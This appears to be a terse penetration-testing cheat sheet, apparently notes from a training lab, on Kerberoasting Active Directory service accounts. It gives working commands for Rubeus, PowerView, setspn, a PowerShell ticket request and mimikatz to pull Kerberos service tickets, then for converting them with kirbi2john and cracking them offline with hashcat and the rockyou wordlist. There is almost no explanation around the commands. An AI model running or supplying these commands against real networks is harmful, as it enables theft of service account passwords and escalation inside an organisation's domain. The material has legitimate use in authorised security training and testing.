 ## using rubeus 
```
.\Rubeus.exe kerberoast 

.\Rubeus.exe kerberoast /stats
```

```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

```powershell-session
.\Rubeus.exe kerberoast /user:MSSQLSvc /nowrap
```

then crack hash with hashcat -m 13100 (it might not always be rc4 it might be other algo, check)

request only rc4 encrypted ticket
```
.\Rubeus.exe kerberoast /tgtdeleg /user:username /nowrap
```
## use powerview to extract tgs tickets
```
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samacountname
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
export all tickets to a csv file
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Semi Manual Method with built in binary
```
cmd: setspn.exe -Q */*
```
focus on the user account and ignore computer accounts 
then use powershell to request tgs tickets and load them into memory
PS 
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
then we use mimikatz to extract them 
```
base64 /out:true
kerberos::list /export
```

in our attackbox we just convert the base64 back to .kirbi file
```
echo "<base64 blob>" |  tr -d \\n 
cat encoded_file | base64 -d > sqldev.kirbi
```

then extract the kerberos ticket using kirbi2john 
```
python2.7 kirbi2john.py crackfile
```

hashcat cracking
```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```